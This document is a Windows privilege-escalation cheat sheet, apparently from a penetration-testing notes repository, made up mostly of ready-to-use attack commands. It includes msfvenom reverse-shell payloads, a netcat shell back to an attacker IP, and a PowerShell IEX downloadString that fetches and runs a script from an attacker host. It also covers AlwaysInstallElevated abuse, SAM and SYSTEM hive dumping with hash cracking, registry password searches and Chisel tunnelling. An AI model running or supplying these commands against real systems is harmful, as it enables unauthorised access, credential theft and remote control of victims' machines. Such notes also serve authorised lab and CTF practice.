 Tools

```
https://github.com/AonCyberLabs/Windows-Exploit-Suggester
https://github.com/itm4n/PrivescCheck
https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
```

Forwarding service

[TCP/UDP tunnel over HTTP](https://github.com/jpillora/chisel)

PowerShell history file

```cmd
REM location
cd C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine
REM file
type C:\Users\<User Account>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
REM dir
cd C:\Users
dir /S /B ConsoleHost_history.txt
```

[LAN Manager authentication level](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-lan-manager-authentication-level)

- [NTLMv1 attack](https://github.com/SpiderLabs/Responder)

Check unusual programs

```
C:\Program Files
C:\Program Files (x86)
```

MSFVenom Reverse Shell Payload

```
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
```

:label: Running PowerShell as another user (switch user in Windows)

Method 1: reverse shell with credential

```cmd
REM create payload
msfvenom -p windows/shell_reverse_tcp lhost=<attacker ip> lport=<attacker listening port> -f exe > rev.exe
REM change user, password and payload
powershell -c "$password = ConvertTo-SecureString '<password>' -AsPlainText -Force; $creds = New-Object System.Management.Automation.PSCredential('<user>', $password);Start-Process -FilePath "<payload>" -Credential $creds"
```

Method 2: [RunasCs](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)

```powershell
Invoke-RunasCs <username> <password> "cmd /c C:\users\public\nc.exe -e cmd.exe <attacker ip> <attacker port>"
```

specify a computer name in the AD environment

prepare PowerShell reverse shell script file ```XXX.ps1```

execute command in the target host

```cmd
powershell -c "$pass = ConvertTo-SecureString '<password>' -AsPlainText -Force;$cred = New-Object System.Management.Automation.PSCredential('<domain>\<username>', $pass);Invoke-Command -Computer <name> -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://<attacker ip>/<XXX.ps1>') } -Credential $cred"
```

File owner access permission 

```cmd
REM check owner
dir /q /a
REM grant full access
icacls <file> /grant <user>:F
```

AlwaysInstallElevated

```shell
# AlwaysInstallElevated set to 1 in HKLM!
# AlwaysInstallElevated set to 1 in HKCU! 
# using msfvenom to create payload
msfvenom -p windows/x64/shell/reverse_tcp LHOST=<attacker ip> LPORT=<attacker port> -f msi -o reverse.msi
```

execute the command on the target

```powershell
# <payload> = reverse.msi
msiexec /quiet /qn /i <payload>
```

SAM (SYSTEM account) (HTB:Omni)

```cmd
reg save HKLM\SYSTEM C:\SYSTEM
reg save HKLM\SAM C:\SAM
```

```shell
python3 secretsdump.py -system /tmp/SYSTEM -sam /tmp/SAM LOCAL
hashcat -m 1000 ./hash ~/Documents/rockyou.txt
```

[Chisel](https://github.com/jpillora/chisel) (port forwarding)

```shell
# client
chmod +x chisel
./chisel server --reverse --port <attacker port>
# Windows target
.\chisel.exe client <attacker ip>:<attacker port> R:<local-interface>:<local-port>:<remote-host>:<remote-port>/<protocol>
# attacker ip = 10.10.10.10
./chisel server --reverse --port 10000
.\chisel.exe client 10.10.10.10:10000 R:4444:localhost:3306 R:5555:localhost:3307
# attacker 
localhost 4444 => remote 3306
localhost 5555 => remote 3307
```

Windows Updates

```cmd
wmic qfe
```

```powershell
Get-HotFix
```

Installed Programs

```cmd
wmic product get name, version, installlocation
```

passwords in Registry

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Tools

[Chisel](https://github.com/jpillora/chisel): Pivoting<br>
[ysoserial.net](https://github.com/pwntester/ysoserial.net): Deserialization payload generator for a variety of .NET formatters

Exploits

- CVE-2021-1732
- MS10-059

WerTrigger

```
https://github.com/sailay1996/WerTrigger
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#wertrigger
https://notes.vulndev.io/wiki/redteam/privilege-escalation/windows/exploiting-privileged-read-write-delete
```
